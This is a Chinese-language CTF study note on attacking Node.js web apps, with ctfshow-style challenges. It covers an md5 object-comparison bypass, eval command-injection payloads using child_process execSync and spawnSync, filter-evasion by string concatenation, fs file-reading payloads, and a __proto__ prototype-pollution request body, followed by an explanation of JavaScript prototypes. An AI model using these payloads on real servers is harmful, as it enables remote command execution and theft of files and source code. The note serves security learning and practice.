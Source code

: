 ## **函数特性**
```
Character.toUpperCase()函数，字符ı会转变为I，字符ſ会变为S
Character.toLowerCase()函数，字符İ会转变为i，字符K会转变为k
```

绕过md5
```
 if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);

?a[x]=1&b[x]=2或者a[:]=1&b[:]=1
?a[x]=1&b[x]=2 相当于是说，a和b都是引用数据类型（对象类型），
a={'x':'1'}
b={'x':'2'}
那么在 a+flag和 b+flag 时，他们的结果就会都是［objectObject]flag{xxx}，那么md5值自然就是一样的了。
```


^
## **eval命令执行**

```
eval(require("child_process").execSync('ls'))


?eval=require("child_process").execSync('ls')

?eval=require('child_process').execSync('ls').toString()

?eval=require("child_process")['exe'%2B'cSync']('ls')

?eval=require('child_process').spawnSync( 'ls', [ './' ] ).stdout.toString()

?eval=global.process.mainModule.constructor._load('child_process').execSync('ls')
```
```
//读文件夹，读文件函数
?eval=require('fs').readdirSync(".")
?eval=require('fs').readFileSync('./fl00g.txt','utf8');
```
```
//字符串拼接
?eval=var s='global.process.mainModule.constructor._lo';var b="ad('child_process').ex";var c="ec(%27ls>public/1.txt%27);";eval(s%2Bb%2Bc)%3B
```

^
有过滤exec|load。函数evalstring.search(/exec|load/i)
```
构造exec
?eval=require("child_process")['exe'%2B'cSync']('ls')

?eval=require( 'child_process' ).spawnSync( 'ls', [ '.' ] ).stdout.toString()
?eval=require( 'child_process' ).spawnSync( 'cat', [ 'f*' ] ).stdout.toString()
```

查看目录和源码
```
?eval=__filename 可以看到路径为/app/routes/index.js 
?eval=__dirname  看到/app/routes/
?eval=require('fs').readFileSync('/app/routes/index.js', 'utf-8')   查看源码
```



^
## **原型链污染**
类似于merge函数用于合并两个或多个对象的属性，将一个或多个源对象的属性复制到目标对象上。
可能造成原型链污染。
```
 var secert = {};
 let user = {};
 utils.copy(user,req.body);  //这里的copy类似merge函数
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }
```
已知secert是对象类型，secert会继承类Object。
```
如果在secert继承到Object中的一个类有ctfshow属性值为36dboy，
那么secert.ctfshow值也为36dboy。

又每一个对象都有__proto__属性，结合copy函数，最终回溯到Object类，定义了一个ctfshow值为36dboy
```
于是POST传递请求体
```
{"__proto__":{"ctfshow":"36dboy"}}
```



^
## **原型链**
一个类必然有一些方法，类似属性this.bar，我们也可以将方法定义在构造函数内部：
```
function Foo() {
    this.bar = 1
    this.show = function() {
        console.log(this.bar)
    }
}

(new Foo()).show()
```
但这样写有一个问题，就是每当我们新建一个Foo对象时，this.show = function...就会执行一次，这个show方法实际上是绑定在对象上的，而不是绑定在“类”中。

我希望在创建类的时候只创建一次show方法，这时候就则需要使用原型（prototype）了：
```
function Foo() {
    this.bar = 1
}

Foo.prototype.show = function show() {
    console.log(this.bar)
}

let foo = new Foo()
foo.show()
```


我们可以认为原型prototype是类Foo的一个属性，而所有用Foo类实例化的对象，都将拥有这个属性中的所有内容，包括变量和方法。比如上图中的foo对象，其天生就具有foo.show()方法。

我们可以通过Foo.prototype来访问Foo类的原型，但Foo实例化出来的对象，是不能通过prototype访问原型的。这时候，就该__proto__登场了。

一个Foo类实例化出来的foo对象，可以通过foo.__proto__属性来访问Foo类的原型，也就是说：
```
foo.__proto__ == Foo.prototype
```

所以，总结一下：

prototype是一个类的属性，所有类对象在实例化的时候将会拥有prototype中的属性和方法
一个对象的__proto__属性，指向这个对象所在的类的prototype属性
